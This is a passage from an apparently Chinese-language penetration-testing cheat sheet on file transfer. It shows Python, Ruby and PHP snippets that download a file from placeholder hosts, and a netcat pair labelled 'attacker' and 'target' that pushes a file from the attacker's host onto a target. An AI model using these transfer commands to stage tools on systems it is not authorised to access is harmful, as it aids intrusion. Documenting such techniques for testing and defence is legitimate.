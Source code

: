 > 执行：perl test.pl

Python

```
#!/usr/bin/python 
import urllib2 
u = urllib2.urlopen('http://domain/file') 
localFile = open('local_file', 'w') 
localFile.write(u.read()) 
localFile.close()
```

> 执行：python test.py

Ruby

```
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.domain.com") { |http|
r = http.get("/file")
open("save_location", "wb") { |file|
file.write(r.body)
}
}
```

> 执行：ruby test.rb

PHP

```
<?php
$url  = 'http://www.example.com/file';
$path = '/path/to/file';
$ch = curl_init($url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$data = curl_exec($ch);
curl_close($ch);
file_put_contents($path, $data);
?>
```

> 执行：php test.php

NC attacker

```
cat file | nc -l 1234
```

target

```
nc host_ip 1234 > file
```

FTP
